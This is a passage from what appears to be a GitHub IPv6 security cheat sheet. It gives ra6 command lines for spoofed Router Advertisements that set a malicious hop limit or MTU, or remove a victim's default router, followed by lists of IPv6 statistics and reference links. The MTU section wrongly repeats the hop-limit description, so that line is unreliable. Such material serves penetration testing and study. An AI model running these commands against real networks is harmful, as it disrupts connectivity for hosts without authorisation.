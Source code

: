 
#### Advertise a malicious Current Hop Limit 
Advertise a malicious Current Hop Limit such that packets are discarded by the intervening routers.<br />
`$ sudo ./ra6 -i eth0 --src-address ROUTERADDR --dst-address TARGETIPv6ADDR --curhop HOPS --loop 1 --verbose`


#### Advertise a malicious MTU
Advertise a small Current Hop Limit such that packets are discarded by the intervening routers.<br />
`$ sudo ./ra6 -i eth0 --src-address ROUTERADDR --dst-address TARGETIPv6ADDR -M MTU --loop 1 --verbose`


#### Disable an Existing Router
Impersonate the local router and send a Router Advertisement with a "Router Lifetime" small value. The victim host will remove the router from the 'default routers list'.<br />
`$ sudo ./ra6 -i eth0 --src-address ROUTERADDR --dst-address TARGETIPv6ADDR --lifetime 0 --loop 1 --verbose`


#### BlackHole
Search for a black hole can be useful to find out who is dropping specific packets, network reconnaissance or just checking if you EH-enabled attacks would work.<br />

Tools : blackhole6, scan6<br />

Not tested yet. Related RFC : https://tools.ietf.org/html/rfc6666<br />


TO BE CONTINUED


## Statistics :chart_with_upwards_trend:
Name | URL 
------------------------------------ | ---------------------------------------------
NRO | https://www.nro.net/statistics
Ripe | https://www.ripe.net/publications/ipv6-info-centre
Google | https://www.google.com/intl/en/ipv6/statistics.html
Cisco | http://6lab.cisco.com/stats/
World IPv6 Launch | http://www.worldipv6launch.org/measurements/
M.R.P. | http://www.mrp.net/ipv6_survey/
Top Alexa by country | https://www.vyncke.org/ipv6status/


## Sources :information_source:
* https://www.iana.org/numbers
* https://www.iana.org/assignments/icmpv6-parameters/icmpv6-parameters.xhtml
* https://www.iana.org/assignments/ipv6-unicast-address-assignments/ipv6-unicast-address-assignments.xhtml
* https://www.iana.org/assignments/ipv6-multicast-addresses/ipv6-multicast-addresses.xhtml
* https://www.ripe.net/
* Google dork : "Fernando Gont" IPv6 filetype:pdf
* http://blog.si6networks.com/
* http://void.gr/kargig/ipv6/fgont-hip2012-hacking-ipv6-networks-training.pdf
* http://cisco.goffinet.org/protocole-ipv6 # FR
* http://www.bortzmeyer.org/hacking-ipv6.html # FR
* http://www.bortzmeyer.org/7707.html # FR
* http://wiki.yobi.be/wiki/IPv6
* https://www.sans.org/reading-room/whitepapers/detection/complete-guide-ipv6-attack-defense-33904
* http://www.worldipv6launch.org/
* https://groups.google.com/forum/#!forum/ipv6hackers
* https://netpatterns.blogspot.fr/2016/01/the-rising-sophistication-of-network.html
* https://www.cs.columbia.edu/~smb/papers/v6worms.pdf
* http://www.maths.tcd.ie/~dwmalone/p/addr-pam08.pdf